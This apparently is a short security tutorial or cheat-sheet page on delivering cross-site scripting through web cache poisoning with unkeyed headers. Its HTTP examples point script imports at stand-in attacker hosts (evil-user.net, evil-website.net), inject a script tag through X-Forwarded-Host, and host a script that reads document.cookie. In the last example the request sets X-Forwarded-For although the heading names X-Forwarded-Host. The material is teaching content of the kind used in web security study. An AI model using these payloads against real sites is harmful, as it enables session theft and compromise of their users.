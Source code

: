 # Delivering XSS Attack

Some websites use unkeyed headers to dynamically generate URLs for importing resources, such as external JavaScript files.&#x20;

Here is an example:

```http
GET / HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: evil-user.net
User-Agent: Mozilla/5.0 Firefox/57.0

HTTP/1.1 200 OK
<script src="https://evil-user.net/static/analytics.js"></script>
```

We can change the "Host" header to a URL we can control and poison the web cache.



We can also poison with a response containing a simple XSS payload:

```http
GET /en?region=uk HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: a."><script>alert(1)</script>"

HTTP/1.1 200 OK
Cache-Control: public
<meta property="og:image" content="https://a."><script>alert(1)</script>"/cms/social.png" />
```



_**Adding an X-Forwarded-Host Header:**_

```http
GET /resources/js/tracking.js HTTP/2
Host: innocent-website.net
Cookie: session=DRBlOrdc4jiQIO1TYTgx9Hn9iqRmYWFa
Sec-Ch-Ua: 
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.141 Safari/537.36
Sec-Ch-Ua-Platform: ""
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: script
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
X-Forwarded-For: evil-website.net
```

_**evil-website.net/resource/js/tracking.js:**_

```
alert(document.cookie)
```
